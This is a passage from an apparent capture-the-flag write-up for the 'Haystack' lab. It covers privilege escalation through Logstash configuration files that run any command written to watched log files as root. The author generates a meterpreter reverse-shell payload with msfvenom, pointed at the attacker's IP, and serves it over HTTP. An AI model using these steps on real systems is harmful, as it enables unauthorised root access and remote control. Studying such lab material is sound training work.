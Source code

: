 ### Privesc

I saw earlier that logstash is running as root and with user `kibana` I have access to the configuration files in `/etc/logstash/conf.d`:

```
bash-4.2$ ls -l
total 12
-rw-r-----. 1 root kibana 131 jun 20 10:59 filter.conf
-rw-r-----. 1 root kibana 186 jun 24 08:12 input.conf
-rw-r-----. 1 root kibana 109 jun 24 08:12 output.conf
bash-4.2$ cat *
filter {
	if [type] == "execute" {
		grok {
			match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
		}
	}
}
input {
	file {
		path => "/opt/kibana/logstash_*"
		start_position => "beginning"
		sincedb_path => "/dev/null"
		stat_interval => "10 second"
		type => "execute"
		mode => "read"
	}
}
output {
	if [type] == "execute" {
		stdout { codec => json }
		exec {
			command => "%{comando} &"
		}
	}
}
```

Logstash has filters configured to execute commands put in `/opt/kibana/logstash_*` where the message contains `Ejecutar comando : ` followed by a command.

I created a meterpreter binary payload:

```
ragingunicorn:~/htb/haystack# msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o met LHOST=10.10.14.12 LPORT=5555
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 129 bytes
Final size of elf file: 249 bytes
Saved as: met
root@ragingunicorn:~/htb/haystack# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```
